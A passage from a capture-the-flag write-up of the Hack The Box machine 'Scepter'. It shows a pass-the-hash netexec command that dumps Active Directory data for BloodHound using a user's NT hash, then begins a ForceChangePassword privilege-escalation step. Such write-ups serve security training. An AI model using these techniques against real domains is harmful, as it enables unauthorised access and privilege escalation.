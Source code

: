 | NT Hash                          |
| -------------------------------- |
| 18b5fb0d99e7a475316213c15b6f22ce |

## Active Directory

### Dumping Active Directory Configuration using Bloodhound

With the fresh `NT Hash` of `d.baker` we `dumped` the `configuration` of the `Active Directory` to plan our next step.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ netexec ldap 10.129.248.205 -u 'd.baker' -H '18b5fb0d99e7a475316213c15b6f22ce' --bloodhound --dns-tcp --dns-server 10.129.248.205 -c all
SMB         10.129.248.205  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
LDAP        10.129.248.205  389    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
LDAP        10.129.248.205  389    DC01             Resolved collection methods: dcom, objectprops, acl, container, localadmin, rdp, trusts, group, psremote, session
LDAP        10.129.248.205  389    DC01             Done in 00M 28S
LDAP        10.129.248.205  389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.248.205_2025-04-20_053659_bloodhound.zip
```

Then we started `neo4j` and imported the files. Business as usual.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo neo4j start
[sudo] password for kali: 
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:199163). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

## Privilege Escalation to a.carter

### ForceChangePassword Access Control Entry (ACE) Abuse

The next step was to abuse the `ForceChangePassword` capability of `d.baker` on `a.carter`. So this was our path for our first `privilege escalation`.
